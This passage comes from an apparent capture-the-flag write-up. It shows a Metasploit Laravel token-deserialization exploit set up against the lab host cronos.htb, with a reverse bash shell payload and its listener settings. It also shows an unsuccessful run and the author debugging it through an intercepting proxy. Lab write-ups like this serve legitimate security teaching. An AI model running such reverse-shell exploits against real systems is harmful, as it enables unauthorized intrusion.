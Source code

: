 ```
   SSL        false                                         no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                                             yes       Path to target webapp
   VHOST      www.cronos.htb                                no        HTTP server virtual host

Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.24      yes       The listen address (an interface may be specified)
   LPORT  443              yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

It’s important to set the `VHOST` option, or the payloads will submit to the wrong vhost.

When I run this, it says it runs, but no shell:

```

msf5 exploit(unix/http/laravel_token_unserialize_exec) > run

[*] Started reverse TCP handler on 10.10.14.24:443 
[*] Exploit completed, but no session was created.

```

I added a proxy (I’ll also need to set `ReverseAllowProxy`):

```

msf5 exploit(unix/http/laravel_token_unserialize_exec) > set proxies http:127.0.0.1:8080
proxies => http:127.0.0.1:8080
msf5 exploit(unix/http/laravel_token_unserialize_exec) > set ReverseAllowProxy true
ReverseAllowProxy => true

```

On re-running it, I see that it’s sending a four HTTP POST requests, each of which is getting a 405 Method Not Allowed response:

![image-20200408133125659](https://0xdfimages.gitlab.io/img/image-20200408133125659.png)

I tried intercepting these requests, and changing each to a GET. The responses were now 200, but no code execution. It turns out that the exploit only works on a POST request (since the deserialization is in the XSRF token, this makes sense).

I looked a bit more in-depth at the Laravel app, to see if I could find a POST endpoint. The routes are defined in `/var/www/laravel/routes/web.php`:
